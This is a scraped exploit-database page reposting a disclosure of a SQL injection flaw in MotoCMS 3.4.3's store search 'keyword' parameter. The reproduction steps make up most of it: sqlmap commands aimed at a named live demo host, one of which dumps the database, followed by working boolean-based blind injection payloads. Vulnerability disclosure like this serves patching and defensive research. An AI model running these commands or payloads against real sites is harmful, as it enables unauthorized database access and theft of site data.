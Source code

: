 ```yaml
---
title: MotoCMS 3.4.3 SQL Injection exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:172698&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-06-06
fetch_date: 2025-10-04T11:44:28.448303
---
```


# MotoCMS 3.4.3 SQL Injection exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for MotoCMS 3.4.3 SQL Injection

2023-06-05 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:172698
# Title: MotoCMS Version 3.4.3 - SQL Injection
# Author: tmrswrr
# Date: 01/06/2023
# Vendor: https://www.motocms.com
# Link: https://www.motocms.com/website-templates/demo/189526.html
# Vulnerable Version(s): MotoCMS 3.4.3

## Description
MotoCMS Version 3.4.3 SQL Injection via the keyword parameter.

## Steps to Reproduce

1) By visiting the url:
https://template189526.motopreview.com/store/category/search/?keyword=1

2) Run sqlmap -u "https://template189526.motopreview.com/store/category/search/?keyword=1" --random-agent --level 5 --risk 3 --batch and this command sqlmap -u "https://template189526.motopreview.com/store/category/search/?keyword=1*" --random-agent --level 5 --risk 3 --batch --timeout=10 --drop-set-cookie -o --dump

### Parameter & Payloads ###

Parameter: keyword (GET)
Type: boolean-based blind
Title: AND boolean-based blind - WHERE or HAVING clause
Payload: keyword=1%' AND 3602=3602 AND 'ZnYV%'='ZnYV

Parameter: #1* (URI)
Type: boolean-based blind
Title: AND boolean-based blind - WHERE or HAVING clause
Payload: https://template189526.motopreview.com:443/store/category/search/?keyword=1%' AND 6651=6651 AND 'BvJE%'='BvJE
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)